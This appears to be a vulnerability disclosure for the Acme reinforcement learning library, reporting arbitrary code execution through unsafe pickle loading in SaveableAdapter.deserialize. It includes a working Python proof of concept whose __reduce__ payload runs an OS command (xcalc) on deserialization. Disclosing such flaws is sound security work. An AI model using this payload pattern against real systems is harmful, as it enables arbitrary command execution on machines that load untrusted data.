 # Description
Acme is a library of reinforcement learning (RL) agents and agent building blocks. Acme strives to expose simple, efficient, and readable agents, that serve both as reference implementations of popular algorithms and as strong baselines, while still providing enough flexibility to do novel research. The design of Acme also attempts to provide multiple points of entry to the RL problem at differing levels of complexity.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install dm-acme')
#os.system('pip3 install dm-sonnet')
from acme.tf import savers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
pickled = pickle.dumps(ArbitraryCode())
savers.SaveableAdapter.deserialize('hehe',pickled)
```
* `pip3 install dm-acme`
* `python3 exploit.py`
